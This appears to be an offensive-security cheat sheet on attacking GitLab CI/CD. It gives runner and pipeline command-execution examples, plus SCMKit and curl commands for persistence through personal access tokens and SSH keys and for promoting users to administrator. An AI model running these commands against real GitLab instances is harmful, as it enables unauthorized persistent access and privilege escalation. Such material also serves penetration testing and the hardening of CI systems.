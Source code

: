 # CI/CD - Gitlab CI

GitLab CI (Continuous Integration) is a built-in feature of GitLab that automates the process of building, testing, and deploying your code every time you make a change. It's part of GitLab CI/CD, which stands for Continuous Integration / Continuous Deployment.

## Gitlab Runners

```ps1
sudo apt-get install gitlab-runner
sudo gitlab-runner register
```

| Prompt              | Example Input                                            |
| ------------------- | -------------------------------------------------------- |
| GitLab instance URL | `https://gitlab.com/`                                    |
| Registration token  | Found in your project under `Settings > CI/CD > Runners` |
| Executor            | `shell`, `docker`, etc.                                  |
| Description         | `my-remote-runner`                                       |
| Tags                | `remote`                                                 |

The `.gitlab-ci.yml` file is the configuration file that GitLab CI/CD uses to define your pipelines, jobs, and stages.

### Command Execution Jobs

Gitlab-CI "Command Execution" example: `.gitlab-ci.yml`

```yaml
stages:
    - test

test:
    stage: test
    script:
        - |
            whoami
    parallel:
        matrix:
            - RUNNER: VM1
            - RUNNER: VM2
            - RUNNER: VM3
    tags:
        - ${RUNNER}
```

### List GitLab Runners

List all GitLab runners available to the current user in GitLab.

```ps1
SCMKit.exe -s gitlab -m listrunner -c userName:password -u https://gitlab.something.local
SCMKit.exe -s gitlab -m listrunner -c apikey -u https://gitlab.something.local
```

## Gitlab Executors

* **Shell** executor: The jobs are run with the permissions of the GitLab Runner’s user and can steal code from other projects that are run on this server.
* **Docker** executor: Docker can be considered safe when running in non-privileged mode.
* **SSH** executor: SSH executors are susceptible to MITM attack (man-in-the-middle), because of missing `StrictHostKeyChecking` option.

## Gitlab CI/CD Variables

CI/CD Variables are a convenient way to store and use data in a CI/CD pipeline, but variables are less secure than secrets management providers.

## Persistence

* [xforcered/SCMKit](https://github.com/xforcered/SCMKit) - Source Code Management Attack Toolkit

### Personal Access Token

Create a PAT (Personal Access Token) as a persistence mechanism for the Gitlab instance.

* Manual

    ```ps1
    curl -k --request POST --header "PRIVATE-TOKEN: apiToken" --data "name=user-persistence-token" --data "expires_at=" --data "scopes[]=api" --data "scopes[]=read_repository" --data "scopes[]=write_repository" "https://gitlabHost/api/v4/users/UserIDNumber/personal_access_tokens"
    ```

* Using `SCMKit.exe`: Create/List/Delete an access token to be used in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m createpat -c userName:password -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m createpat -c apikey -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m removepat -c userName:password -u https://gitlab.something.local -o patID
    SCMKit.exe -s gitlab -m listpat -c userName:password -u https://gitlab.something.local -o targetUser
    SCMKit.exe -s gitlab -m listpat -c apikey -u https://gitlab.something.local -o targetUser
    ```

* Get the assigned privileges to an access token being used in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m privs -c apiKey -u https://gitlab.something.local
    ```

### SSH Keys

* Create/List an SSH key to be used in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m createsshkey -c userName:password -u https://gitlab.something.local -o "ssh public key"
    SCMKit.exe -s gitlab -m createsshkey -c apiToken -u https://gitlab.something.local -o "ssh public key"
    SCMKit.exe -s gitlab -m listsshkey -c userName:password -u https://github.something.local
    SCMKit.exe -s gitlab -m listsshkey -c apiToken -u https://github.something.local
    SCMKit.exe -s gitlab -m removesshkey -c userName:password -u https://gitlab.something.local -o sshKeyID
    SCMKit.exe -s gitlab -m removesshkey -c apiToken -u https://gitlab.something.local -o sshKeyID
    ```

### User Promotion

* Promote a normal user to an administrative role in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m addadmin -c userName:password -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m addadmin -c apikey -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m removeadmin -c userName:password -u https://gitlab.something.local -o targetUserName
    ```

## References

* [Security for self-managed runners - Gitlab](https://docs.gitlab.com/runner/security/)

